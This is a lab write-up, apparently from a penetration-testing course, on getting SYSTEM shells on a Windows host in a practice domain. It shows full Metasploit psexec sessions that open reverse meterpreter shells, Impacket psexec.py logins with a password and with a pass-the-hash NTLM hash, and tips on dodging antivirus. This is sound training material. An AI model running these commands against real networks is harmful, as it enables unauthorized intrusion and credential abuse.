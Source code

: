 1. We can get shell using a password and a username 

![](https://i.imgur.com/NZjEBIr.png)

2. We can gain shell access with the SAM dumped hash we got from the smb relay attack

![](https://i.imgur.com/wWJPEWY.png)

> Metasploit is mostly noisy which might get picked up by an antivirus, that is why we have other tools like `psexec.py` which is a little bit noisy
> 

1. Same as we can gain access with password and usernames using metasploit, we can use `psexec.py`

![](https://i.imgur.com/RrMmz5y.png)

2. We can also get shell though hashes

![](https://i.imgur.com/FqMWCNX.png)

# Practical

1. Metasploit

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ msfconsole
[*] Starting the Metasploit FraMework console...%

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.157    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.0.166
rhosts => 192.168.0.166
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

```shell
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

It is better to choose `Native upload` for the targets if you have failed on `Automatic` 

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445|MARVEL.local as user 'fcastle'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 1 opened (192.168.0.157:4444 -> 192.168.0.166:56193) at 2023-09-16 16:25:05 -0400

meterpreter > 
```

Now we need to do a hash attack so background this session

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > 
```

```shell
msf6 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf6 exploit(windows/smb/psexec) > unset smbdomain
Unsetting smbdomain...
[!] Variable "smbdomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear smbdomain
```

Now we need our hash, Note that the **NT** part of this hash is the most important, but we need to select both the **LM** and **NT** part for this attack

![](https://i.imgur.com/c8XeAIx.png)

```shell
msf6 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

smbpass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445 as user 'administrator'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 3 opened (192.168.0.157:4444 -> 192.168.0.166:54623) at 2023-09-16 17:47:14 -0400

meterpreter > 
```

2. Psexec.py

We can get shell on target system, using this syntax :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:'Password1'@192.168.0.166

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file fsodQFwB.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service fqSt on 192.168.0.166.....
[*] Starting service fqSt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We can use the `exit` command to close this section

Sometimes we might not be able to pass our password as a string directly, we can just remove the password from our command and things would be fine, as we can see we are prompted for a password below

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:@192.168.0.166  

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file aDwPMykR.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service JZWK on 192.168.0.166.....
[*] Starting service JZWK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

We could also connect to our target with hashes

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py administrator@192.168.0.166 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file UaXfeiHM.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service SCMQ on 192.168.0.166.....
[*] Starting service SCMQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

In case we get blocked by antivirus we have other tools like `wmiexec.py` and `smbexec.py` ,  this tools also have the same syntax with `psexec.py` so we can just run them directly if one doesn't work

![](https://i.imgur.com/eEFbLov.png)


